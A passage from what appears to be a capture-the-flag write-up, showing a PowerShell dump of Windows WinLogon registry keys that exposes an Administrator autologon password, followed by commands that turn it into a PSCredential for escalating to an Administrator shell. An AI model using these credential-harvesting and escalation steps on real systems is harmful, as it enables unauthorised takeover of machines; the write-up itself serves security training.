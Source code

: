Shell                        : explorer.exe
ShellCritical                : 0
ShellInfrastructure          : sihost.exe
SiHostCritical               : 0
SiHostReadyTimeOut           : 0
SiHostRestartCountLimit      : 0
SiHostRestartTimeGap         : 0
Userinit                     : C:\Windows\system32\userinit.exe,
VMApplet                     : SystemPropertiesPerformance.exe /pagefile
WinStationsDisabled          : 0
scremoveoption               : 0
DisableCAD                   : 1
LastLogOffEndTimePerfCounter : 332637038
ShutdownFlags                : 2147483699
AutoAdminLogon               : 1
DisableLockWorkstation       : 0
EnableFirstLogonAnimation    : 1
AutoLogonSID                 : S-1-5-21-988671444-1802818203-1364644418-500
LastUsedUsername             : Administrator
@@@DefaultPassword@@@              : @@@3130438f31186fbaf962f407711faddb@@@
PSPath                       : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_M
                               ACHINE\SOFTWARE\Microsoft\Windows 
                               NT\CurrentVersion\WinLogon
PSParentPath                 : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_M
                               ACHINE\SOFTWARE\Microsoft\Windows 
                               NT\CurrentVersion
PSChildName                  : WinLogon
PSProvider                   : Microsoft.PowerShell.Core\Registry



PS C:\inetpub\wwwroot\internal-01\log>
{% endhighlight %}

Among other things, the output of the command discloses the default username, default password and default domain. We should be able to use these to obtain a shell as the `Administrator` user on the target host. To do this, we need to create a [SecureString](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring) object using the password, use the SecureString object to create a [PowerShell Credential](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential) object and use the PowerShell credential object to obtain code execution. We can create the SecureString and PowerShell credential objects as demonstrated below.

{% highlight none linenos %}
PS C:\inetpub\wwwroot\internal-01\log> @@$secstr = New-Object -TypeName System.Security.SecureString@@
$secstr = New-Object -TypeName System.Security.SecureString
PS C:\inetpub\wwwroot\internal-01\log> @@"3130438f31186fbaf962f407711faddb".ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}@@
"3130438f31186fbaf962f407711faddb".ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\inetpub\wwwroot\internal-01\log> @@$creds = new-object -typename System.Management.Automation.PSCredential -argumentlist "DESKTOP-7I3S68E\Administrator", $secstr@@
$creds = new-object -typename System.Management.Automation.PSCredential -argumentlist "DESKTOP-7I3S68E\Administrator", $secstr
PS C:\inetpub\wwwroot\internal-01\log>
{% endhighlight %}
